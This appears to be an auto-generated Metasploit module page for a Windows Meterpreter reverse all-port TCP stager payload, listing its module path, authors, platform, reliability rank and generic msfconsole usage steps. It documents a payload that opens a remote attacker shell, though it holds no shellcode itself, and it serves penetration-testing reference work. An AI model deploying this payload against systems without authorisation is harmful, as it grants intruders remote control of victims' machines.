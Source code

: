 ## Windows Meterpreter (skape/jt Injection), Reverse All-Port TCP Stager

Inject the meterpreter server DLL (staged). Try to connect 
back to the attacker, on all possible ports (1-65535, 
slowly)


## Module Name
payload/windows/patchupmeterpreter/reverse_tcp_allports

## Authors
* skape
* jt <jt@klake.org>
* hdm
* sf





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/patchupmeterpreter/reverse_tcp_allports
msf payload(reverse_tcp_allports) > show targets
   ... a list of targets ...
msf payload(reverse_tcp_allports) > set TARGET <target-id>
msf payload(reverse_tcp_allports) > show options
   ... show and set options ...
msf payload(reverse_tcp_allports) > run
```
    
    